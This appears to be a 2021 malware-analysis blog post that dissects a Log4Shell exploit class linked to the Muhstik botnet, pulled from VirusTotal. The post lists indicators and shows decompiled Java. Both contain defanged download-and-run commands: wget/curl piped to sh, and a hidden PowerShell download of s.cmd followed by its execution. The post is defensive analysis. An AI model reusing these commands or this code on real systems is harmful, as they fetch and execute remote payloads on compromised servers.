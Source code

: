 ```yaml
---
layout: post
title: "Analyzing a Log4Shell log4j Exploit from Muhstik"
date: 2021-12-12
categories: Malware
tags: log4jshell malware java powershell muhstik
permalink: /analyzing-log4shell-muhstik/
---
```


In this post I set out to analyze a simple chunk of Log4Shell log4j exploit code to see how it works.

## Finding the Exploit

I wasn't running a honeypot or anything, I just figured I could rustle around VirusTotal and find one using this search:

`tag:java-bytecode positives:1+`

Out of the files I saw, I ended up settling on this simple one:

[https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41](https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41)

## Triaging for Indicators

If you're working an incident it helps to have some indicators you can feed over to the rest of your team to identify behaviors or other data. One of the easiest ways to find low-hanging indicators in malware is using the `strings` command.

```
remnux@remnux:~/cases/muhstik$ strings Exploit.class 

<init>
Code
LineNumberTable
<clinit>
StackMapTable
SourceFile
Exploit.java
java/lang/String
	/bin/bash
S(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh
os.name
powershell
hidden
(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd
java/lang/Exception
com/knal/muhstik/Exploit
java/lang/Object
[Ljava/lang/String;
java/lang/System
getProperty
&(Ljava/lang/String;)Ljava/lang/String;
toLowerCase
()Ljava/lang/String;
startsWith
(Ljava/lang/String;)Z
java/lang/Runtime
getRuntime
()Ljava/lang/Runtime;
exec
(([Ljava/lang/String;)Ljava/lang/Process;
java/lang/Process
waitFor
Ljava/io/PrintStream;
toString
java/io/PrintStream
println
(Ljava/lang/String;)V
```

Keep in mind that `strings` doesn't grab Unicode characters by default, so you'll need to run a second pass using `strings -eL`. In this case, I found no additional strings.

Useful indicators from this threat include:

- `hxxp://18.228.7[.]109/.log/log`
- `hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd`
- `com/knal/muhstik/Exploit`

The last string proves useful to find intelligence overlaps. The Muhstik botnet has used the strings `knal` and `muhstik` in parts of its exploitation [in the past](https://sysdig.com/blog/muhstik-malware-botnet-analysis/).

## Reversing to Java Source

Reversing the Java bytecode in a class file back to source is relatively easy, and I recommend using [JD-GUI](http://java-decompiler.github.io/) for the job. Pretty much all of the work is done for you (assuming the code isn't obfuscated) and you'll get a clean view of the code.

![JD-GUI Code Decompiler](/assets/images/analyzing-log4jshell-muhstik/muhstik-re-1.png)

This code is a simple example of cross-platform exploit code.

```java
String[] arrayOfString = { "/bin/bash", "-c", "(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh" };

if (System.getProperty("os.name").toLowerCase().startsWith("win"))
	arrayOfString = new String[] { "powershell", "-w", "hidden", "-c", "(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd" }; 

Runtime runtime = Runtime.getRuntime();
Process process = runtime.exec(arrayOfString);
process.waitFor();
```

The code uses [`System.getProperty()`](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) to determine if the server is running Windows or not. If it is, the code executes PowerShell with commands to [download](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0) `s.cmd` and then [execute](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.2) it. If the server isn't running Windows, the code executes `curl` and/or `wget` commands depending on what is available on the exploited system.

The actual shell commands are kicked off by [`Runtime.exec`](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html) and then the code waits for the commands to complete.